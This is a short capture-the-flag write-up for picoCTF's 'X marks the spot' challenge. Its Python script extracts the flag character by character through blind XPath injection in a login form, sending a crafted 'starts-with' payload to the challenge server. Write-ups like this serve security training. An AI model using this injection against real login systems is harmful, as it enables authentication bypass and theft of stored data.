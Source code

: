 # X marks the spot

Author: Enan Ajmain - 1605018

Original link: https://play.picoctf.org/practice/challenge/185

Tools used:
- python


## Description

Another login you have to bypass. Maybe you can find an injection that works?

http://mercury.picoctf.net:20297/


## Explanation

```python
import requests
from string import *

charecters = ascii_lowercase + ascii_uppercase + digits + "}_"

flag = "picoCTF{"

while True:
    if flag[-1] == '}':
        break
    for ch in charecters:
        st = flag + ch
        data = {"name":"admin", "pass":"' or //*[starts-with(text(),'"+st+"')] or '1'='2"}
        r = requests.post("http://mercury.picoctf.net:20297/", data=data)
        if "You&#39;re on the right path." in r.text:
            flag = flag + ch
            print(flag)
            break

print(flag)
```
